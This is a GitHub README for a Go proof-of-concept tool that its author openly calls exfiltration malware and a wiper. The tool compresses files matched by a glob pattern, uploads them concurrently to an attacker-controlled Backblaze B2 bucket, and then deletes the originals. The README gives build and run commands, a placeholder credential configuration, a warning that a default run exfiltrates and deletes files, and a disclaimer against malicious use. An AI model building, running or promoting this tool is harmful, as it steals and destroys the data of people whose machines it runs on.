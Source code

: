 # golang exfil malware POC

A high-performance file exfil/wiper for Backblaze B2 that uses goroutines for concurrent uploads and zstd compression for reduced file sizes.

## Features

- Concurrent file uploads using goroutines
- zstd compression with fastest preset
- Dynamic CPU-based worker scaling
- Progress tracking
- Glob pattern support for file selection
- Efficient memory usage with buffer pools
- Automatic file grouping for optimal uploads

## Prerequisites

- Go 1.19 or later
- Backblaze B2 account and credentials

# To Build

```bash
go build -o uploader.exe ./cmd/uploader
```


## Usage

```bash
./uploader.exe -glob "path/to/files/*.txt" -group-size 100000000
```
or just run it to use default config (note, if you do run this, the files it identifies and exfils will be DELETED from the machine it is ran on)

## Configuration

The application is configured to use:
- Endpoint: s3.region-here.backblazeb2.com
- Bucket: bucket-name-here
- Key ID: key-id-here
- Key Name: key-name-here
- App Key: app-key-here

## NOTICE

This is a proof of concept and is not meant to be used in production or for any malicious purposes. I am not responsible for your actions, or repurposing of this code.



